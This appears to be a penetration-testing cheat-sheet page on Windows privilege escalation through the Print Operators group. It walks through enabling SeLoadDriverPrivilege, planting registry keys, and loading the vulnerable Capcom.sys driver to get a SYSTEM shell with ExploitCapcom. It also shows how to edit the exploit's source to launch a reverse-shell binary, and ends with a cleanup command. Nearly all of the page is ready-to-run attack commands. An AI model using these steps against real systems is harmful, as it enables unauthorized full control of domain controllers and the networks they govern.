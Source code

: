 # Print Operators

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**Print Operators**</mark> is another highly privileged group, which grants its members the <mark style="color:green;">`SeLoadDriverPrivilege`</mark>, rights to <mark style="color:purple;">**manage, create, share, and delete printers**</mark> connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down.

## <mark style="color:yellow;">Capcom Driver Abuse</mark>

The plan is to use <mark style="color:green;">**EnableSeLoadDriverPrivilege**</mark> script [**\[LINK\]**](https://github.com/3gstudent/Homework-of-C-Language/blob/master/EnableSeLoadDriverPrivilege.cpp) to enable <mark style="color:green;">`SeLoadDriverPrivilege.`</mark> Then we need to load the <mark style="color:green;">**Capcom.sys**</mark> [**\[LINK\]**](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) driver, which was used originally as a anti-cheat for Capcom games, but it also have functionality to allow any user to execute shellcode with <mark style="color:green;">`SYSTEM`</mark> privileges. Then we make a Registry key and edit it for Capcom.sys to be seen. Then we check it with <mark style="color:green;">**DriverView**</mark> [**\[LINK\]**](http://www.nirsoft.net/utils/driverview.html). After we verified that info, we are using <mark style="color:green;">**ExploitCapcom**</mark> script [**\[LINK\]**](https://github.com/tandasat/ExploitCapcom) to get SYSTEM shell.

<mark style="color:orange;">**OR**</mark> we can change code of <mark style="color:green;">**ExploitCapcom**</mark> to make a reverse shell for us (if we have no GUI access).

#### Check privs

```powershell
C:\> whoami /priv
```

#### EnableSeLoadPrivilege

```powershell
C:\> .\EnableSeLoadDriverPrivilege.exe
```

#### Add Reference to Driver

You need to download Capcom.sys to <mark style="color:green;">`C:\temp`</mark>. Issue the commands below to add a reference to this driver under our <mark style="color:blue;">**HKEY\_CURRENT\_USER**</mark> tree.

```powershell
C:\> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\temp\Capcom.sys"

C:\> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

#### Verify Driver

```powershell
PS C:\> .\DriverView.exe /stext drivers.txt

PS C:\> cat drivers.txt | Select-String -pattern Capcom
```

#### Exploiting

```powershell
PS C:\> .\ExploitCapcom.exe
```

***

#### Same stuff but automated

We can use <mark style="color:green;">**EoPLoadDriver**</mark> [**\[LINK\]**](https://github.com/TarlogicSecurity/EoPLoadDriver/) script to automate process of enabling the privilege, creating the registry key, and executing <mark style="color:green;">`NTLoadDriver`</mark> to load the driver by using this command.

```powershell
C:\> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\temp\Capcom.sys
```

```
PS C:\> .\ExploitCapcom.exe
```

***

### NO GUI

For that we need to find ExploitCapcom.cpp. change string below and recompile.

```cpp
B E F O R E : TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");

A F T E R : TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

***

### Cleanup

For a little clean up we could just delete registry key we made before.

```powershell
C:\> reg delete HKCU\System\CurrentControlSet\Capcom
```

